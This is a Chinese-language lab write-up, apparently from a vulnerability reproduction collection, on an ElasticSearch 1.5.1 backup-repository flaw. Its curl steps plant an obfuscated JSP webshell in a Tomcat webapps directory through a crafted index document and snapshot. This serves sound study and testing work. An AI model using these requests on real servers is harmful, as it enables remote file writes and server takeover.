

# ElasticSearch 任意文件上传漏洞（WooYun-2015-110216）

ElasticSearch 是一个分布式的 RESTful 搜索和分析引擎。

ElasticSearch 的备份功能中存在一个漏洞，攻击者可以利用该漏洞向文件系统写入任意文件，当与其他 Web 服务结合时，可能导致 WebShell 上传。

ElasticSearch 具有数据备份功能，允许用户指定一个路径来存储备份数据。这个路径和文件名都可以由用户控制。如果系统上同时运行着其他 Web 服务（如 Tomcat、PHP 等），攻击者可以利用 ElasticSearch 的备份功能向 Web 可访问目录写入 WebShell。

与 [CVE-2015-5531](../CVE-2015-5531/) 类似，该漏洞与备份仓库功能有关。在 ElasticSearch 1.5.1 版本之后，备份仓库的根路径被限制在 `path.repo` 配置选项中。如果管理员未配置此选项，备份功能将默认禁用。即使配置了该选项，只有当 Web 根目录位于配置目录内时，才能写入 WebShell。

参考链接：

- <http://cb.drops.wiki/bugs/wooyun-2015-0110216.html>

## 环境搭建

执行以下命令启动一个 ElasticSearch 1.5.1 版本的服务器，同时，一个 Tomcat 也运行在同一容器中：

```
docker compose up -d
```

Tomcat 安装在 `/usr/local/tomcat` 目录，其 Web 目录位于 `/usr/local/tomcat/webapps`。ElasticSearch 安装在 `/usr/share/elasticsearch` 目录。

## 漏洞复现

我们的目标是利用 ElasticSearch 在 `/usr/local/tomcat/webapps` 目录下写入 WebShell。

首先，创建一个恶意的索引文档：

```
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

然后创建一个恶意的仓库。其中 `location` 的值是我们要写入文件的路径。

> 注意：仓库路径的特点在于它可以写入任何可访问的位置，如果路径不存在会自动创建。这意味着你可以通过文件访问协议创建任意文件夹。这里我们将路径指向 Tomcat 的 Web 部署目录，因为 Tomcat 会自动为该目录下创建的文件夹创建新的应用（如果文件名为 wwwroot，创建的应用名称就是 wwwroot）。

```
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

验证并创建仓库：

```
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

完成！

访问 `http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp` 即可找到我们上传的 WebShell。

这个 Shell 允许向 wwwroot 目录下的 test.jsp 文件写入任意字符串。例如：`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`。然后访问/wwwroot/test.jsp 就能看到"success"：


